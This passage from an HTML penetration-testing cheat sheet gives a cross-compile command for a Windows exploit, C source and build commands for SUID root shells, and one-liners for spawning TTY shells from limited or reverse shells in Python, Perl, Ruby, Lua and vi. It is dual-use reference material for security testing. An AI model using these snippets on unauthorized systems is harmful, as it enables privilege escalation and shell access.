 <td>i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe</td>
<td>Compile windows .exe on Linux</td>
</tr>
</tbody>
</table>
<h2>SUID Binary</h2>
<p>Often SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required.</p>
<p>below are some quick copy and pate examples for various shells:</p>
<h3>SUID C Shell for /bin/bash</h3>
<figure>
<pre>int main(void){
       setresuid(0, 0, 0);
       system("/bin/bash");
}</pre>
</figure>
<h3>SUID C Shell for /bin/sh</h3>
<figure>
<pre>int main(void){
       setresuid(0, 0, 0);
       system("/bin/sh");
}</pre>
</figure>
<h3>Building the SUID Shell binary</h3>
<figure>
<pre>gcc -o suid suid.c</pre>
</figure>
<p>For 32 bit:</p>
<figure>
<pre>gcc -m32 -o suid suid.c</pre>
</figure>
<h2>TTY Shells</h2>
<p>Tips / Tricks to spawn a TTY shell from a limited shell in Linux, useful for running commands like su from reverse shells.</p>
<h3>Python TTY Shell Trick</h3>
<figure>
<pre>python -c 'import pty;pty.spawn("/bin/bash")'</pre>
</figure>
<figure>
<pre>echo os.system('/bin/bash')</pre>
</figure>
<h3>Spawn Interactive sh shell</h3>
<figure>
<pre>/bin/sh -i</pre>
</figure>
<h3>Spawn Perl TTY Shell</h3>
<figure>
<pre>exec "/bin/sh";
perl —e 'exec "/bin/sh";'</pre>
</figure>
<h3>Spawn Ruby TTY Shell</h3>
<figure>
<pre>exec "/bin/sh"</pre>
</figure>
<h3>Spawn Lua TTY Shell</h3>
<figure>
<pre>os.execute('/bin/sh')</pre>
</figure>
<h3>Spawn TTY Shell from Vi</h3>
<p>Run shell commands from vi:</p>
<figure>
<pre>:!bash</pre>
</figure>
<h3>Spawn TTY Shell NMAP</h3>